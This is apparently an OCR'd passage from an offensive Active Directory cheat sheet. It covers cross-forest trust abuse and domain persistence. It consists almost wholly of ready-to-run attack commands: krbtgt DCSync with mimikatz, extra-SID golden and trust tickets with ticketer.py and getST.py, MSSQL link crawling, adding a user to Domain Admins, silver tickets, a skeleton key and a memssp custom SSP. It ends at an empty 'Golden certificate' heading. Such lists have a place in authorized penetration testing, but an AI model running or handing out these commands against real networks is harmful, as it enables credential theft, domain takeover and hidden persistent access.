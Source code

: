 ```cmd
 -> getST.py -k -no-pass -spn cifs/<dc_fqdn> <parent_domain>/trustfakeuser@<parent_domain> -debug
```
ForeignGroupMember
```
Users with foreign Domain Group Membership:
MATCH p=(n:User)-[:MemberOf]->(m:Group) WHERE n.domain="<domain>" AND m.domain<>n.domain RETURN p

Groups with Foreign Domain Group Membership
MATCH p=(n:Group {domain:"<domain>"})-[:MemberOf]->(m:Group) WHERE m.domain<>n.domain AND n.name<>m.name RETURN p

Get-DomainForeignGroupMember -Domain <target>
convertfrom-sid <sid>
```
Forest  To Forest - extra SID (SID History / TREAT_AS_EXTERNAL)
```
golden ticket:
Get-DomainSID -Domain <domain>
Get-DomainSID -Domain <target_domain>
->  (SID filtering, Find group with SID > 1000)
	Get-DomainGroupMember -Identity "<group>" -Domain <target_domain>
		mimikatz lsadump::dcsync /domain:<domain> /user:<domain>\krbtgt
		ticketer.py -nthash <krbtgt_hash> -domain-sid <from_sid> -domain <from_domain> -extra-sid <to_domain>-<group_id>  goldenuser //(group id must be > 1000)

Trust ticket:
Get the trust ticket in the ntds (TARGET_DOMAIN$)
ticketer.py -nthash <trust_key> -domain-sid <from_domain_sid> -domain <from_domain> -extra-sid <to_domain>-<group_id> -spn krbtgt/<to_domain> trustuser  //(group id must be > 1000)
	-> getST.py -k -no-pass -spn cifs/<dc_fqdn> <parent_domain>/trustfakeuser@<parent_domain> -debug
```

Forest to Forest Compromise - MSSQL trusted links
```
Get-SQLServerLinkCrawl -username <user> -password <pass> -Verbose -Instance <sql_instance>
mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip> 
```

# Persistence
```
net group "domain admins" myuser /add /domain
```
Golden ticket
```
ticketer.py -aesKey <aeskey> -domain-sid <domain_sid> -domain <domain> <anyuser> 
mimikatz "kerberos::golden /user:<admin_user> /domain:<domain> /sid:<domain-sid>/aes256:<krbtgt_aes256> /ptt"
```
Silver Ticket
```
mimikatz "kerberos::golden /sid:<current_user_sid> /domain:<domain-sid> /target:<target_server> /service:<target_service> /aes256:<computer_aes256_key> /user:<any_user> /ptt"
ticketer.py -nthash <machine_nt_hash> -domain-sid <domain_sid> -domain <domain> <anyuser>
```
Skeleton Key
```
mimikatz "privilege::debug" "misc::skeleton" "exit"
```
Custom SSP
```
mimikatz "privilege::debug" "misc::memssp" "exit"
C:\Windows\System32\kiwissp.log
```
Golden certificate
```
```